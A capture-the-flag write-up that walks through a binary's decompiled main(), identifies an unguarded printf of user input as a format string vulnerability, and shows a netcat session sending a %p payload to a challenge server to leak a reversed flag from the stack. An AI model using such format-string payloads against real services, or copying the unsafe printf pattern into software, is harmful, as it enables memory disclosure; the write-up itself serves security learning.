


1. Analyse the file with Ghidra. main() shows this:
`   FILE *local_c0;
    char local_b8[64];
    char local_78[104];
    long local_10;

    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    local_c0 = fopen("flag.txt", "r");
    if (local_c0 == (FILE *)0x0) {
        printf("Error in opening the flag file");
    }
    fgets(local_b8, 0x3f, local_c0);
    puts(
        "Welcome to the Armed Detective Agency - the best and most famous detective agency in all of Yokohama!"
    );
    puts(
        "Thank you for coming, future detective! We need your help on this very important and classified mission!"
    );
    puts("A chest full of ability crystals has been lost somewhere in this binary.");
    puts("Can you help us find it? (Y/n)");
    __isoc99_scanf("%DAT_00102178", &local_c1);
    if (local_c1 == 'Y') {
        puts("Aww! We really looked forward to working with you! \\n Have a nice day.");
    }
    else {
        puts("Great! What was your name again?");
        __isoc99_scanf("%DAT_00102184", local_78);
        printf("Looking forward to working with you ");
        printf(local_78);
    }
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
        /* WARNING: Subroutine does not return */
        stack_chk_fail();
    }
    return 0;`

2. From main(), we can see that `printf(local_78)` is a **format string vulnerability** as it should be `printf("%s", local_78)`. So we can use `%p` to print various values from the stack, which is likely where the flag is hidden. 

3. I first tried dumping a bunch of stack positions up to to 20, and then passing the resulting hex output to CyberChef to decode.
`   └─$ nc 43.205.113.100 8280
    Welcome to the Armed Detective Agency - the best and most famous detective agency in all of Yokohama!
    Thank you for coming, future detective! We need your help on this very important and classified mission!
    A chest full of ability crystals has been lost somewhere in this binary.
    Can you help us find it? (Y/n)
    Y
    Great! What was your name again?
    %20$p.%19$p.%18$p.%17$p.%16$p.%15$p.%14$p.%13$p.%12$p.%11$p.%10$p
    Looking forward to working with you 0x2e70243731252e70.0x243831252e702439.0x31252e7024303225.0x7d736e31406d.0x33725f67406c665f.0x3368745f7475625f.0x6873316e40765f35.0x656974696c696240.0x5f64337463407274.0x58655f3368747b66.0x746369746b616873`
Putting it into CyberChef, I got:

Aside from the 3 irrelevant values (stack positions 20-18), we can see that there is a reversed flag inside (stack positions 10-17).

4. Remove the front portion and reverse the rest to get the flag:
